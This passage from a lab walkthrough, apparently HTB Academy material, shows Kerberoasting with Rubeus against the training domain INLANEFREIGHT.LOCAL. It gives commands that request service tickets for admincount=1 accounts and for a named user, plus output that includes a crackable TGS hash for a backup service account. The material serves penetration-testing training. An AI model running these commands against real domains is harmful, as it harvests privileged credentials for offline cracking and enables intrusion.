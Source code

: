 Now let's request tickets for accounts with `admincount` attribute set as `1`. 

`nowrap` will help for easy copy.

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))(admincount=1))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : backupagent
[*] DistinguishedName      : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : backupjob/veam001.inlanefreight.local
[*] PwdLastSet             : 2/15/2022 2:15:40 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*backupagent$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local@INLANEFREIGHT.LOCAL*$750F377DEFA85A67EA0FE51B0B28F83D$049EE7BF77ABC968169E1DD9E31B8249F509080C1AE6C8575B7E5A71995F345CB583FECC68050445FDBB9BAAA83AC7D553EECC57<SNIP>
```


We can target specific user as such:

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : testspn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=testspn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : testspn
[*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
[*] PwdLastSet             : 2/27/2022 12:15:43 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
```